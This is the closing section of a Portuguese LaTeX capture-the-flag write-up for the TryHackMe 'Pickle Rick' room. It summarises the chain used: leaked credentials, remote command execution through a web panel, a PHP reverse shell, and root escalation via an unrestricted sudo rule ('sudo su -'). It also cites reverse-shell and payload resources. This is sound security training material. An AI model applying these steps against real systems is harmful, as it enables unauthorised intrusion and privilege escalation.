  
\includegraphics[width=0.9\linewidth]{third_ingridient_escalation.png}
  \caption{\texttt{sudo -l} expondo \texttt{(ALL) NOPASSWD: ALL}; \texttt{sudo
  su -} eleva a \texttt{root} e lê o terceiro ingrediente em
  \texttt{/root/3rd.txt}.}
  \label{fig:privesc}
\end{figure}

%============================= 2.7 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento resultou do encadeamento de várias más configurações.
Primeiro, credenciais expostas em recursos públicos: o \textbf{usuário} no
comentário do código-fonte e a \textbf{senha} em \texttt{/robots.txt}. Em
seguida, o \emph{Command Panel} em \texttt{/portal.php} executava comandos
arbitrários do sistema (RCE por \emph{design}), convertido em um \emph{reverse
shell} PHP como \texttt{www-data}. Por fim, a política de \texttt{sudo}
concedia a \texttt{www-data} a permissão \texttt{(ALL) NOPASSWD: ALL},
permitindo escalada trivial a \texttt{root}. Os três ingredientes secretos (as
\emph{flags}) foram coletados ao longo do caminho. As falhas centrais foram a
\textbf{exposição de credenciais} em recursos públicos e uma \textbf{configuração
de \texttt{sudo} excessivamente permissiva}.

%============================= 2.8 REFERENCIAS ==================================
\section{Referências}
Este desafio decorre de más configurações (\emph{exposição de credenciais},
\emph{RCE por design} e \emph{sudo} irrestrito), não de uma CVE específica.
\begin{itemize}[leftmargin=1.5em]
  \item TryHackMe --- Sala \emph{Pickle Rick} ---
        \url{https://tryhackme.com/room/picklerick}
  \item pentestmonkey --- \texttt{php-reverse-shell} ---
        \url{https://github.com/pentestmonkey/php-reverse-shell}
  \item PayloadsAllTheThings --- \emph{Reverse Shell Cheat Sheet} ---
        \url{https://github.com/swisskyrepo/PayloadsAllTheThings}
  \item GTFOBins --- \texttt{sudo} ---
        \url{https://gtfobins.github.io/gtfobins/sudo/}
\end{itemize}

\end{document}
